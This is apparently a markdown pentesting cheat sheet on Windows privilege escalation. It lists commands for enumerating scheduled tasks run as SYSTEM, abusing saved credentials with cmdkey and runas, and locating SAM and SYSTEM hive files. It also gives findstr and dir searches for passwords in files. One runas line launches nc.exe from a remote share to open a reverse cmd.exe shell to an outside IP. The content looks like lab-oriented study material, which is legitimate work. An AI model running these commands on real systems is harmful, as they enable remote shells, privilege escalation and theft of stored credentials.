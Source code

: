 ### List only task names
```
schtasks /query /fo LIST 2>nul | findstr TaskName
```

### Verbose
```
schtasks /query /fo LIST /v  
```
### Parsing Verbose output
*copy output and save in txt on kali machine*  
```
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM  
```

### Tasks on disk
```
dir c:\windows\tasks\  
dir c:\windows\system32\tasks\  
```

### Info on specific task
```
schtasks /query /v /fo list /tn "\System Maintenance"
```


## Paswords in files  
https://pentestlab.blog/tag/privilege-escalation/page/3/  
### cmdkey
*If there are entries, it means that we may able to runas certain user who stored his cred in windows* 
```
cmdkey /list 
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  
```
### SAM Files
```
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  
```

### Raw text search
```
findstr /si password *.xml *.ini *.txt
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  
findstr /spin "password" *.*  
findstr /spin "password" *.*  
```
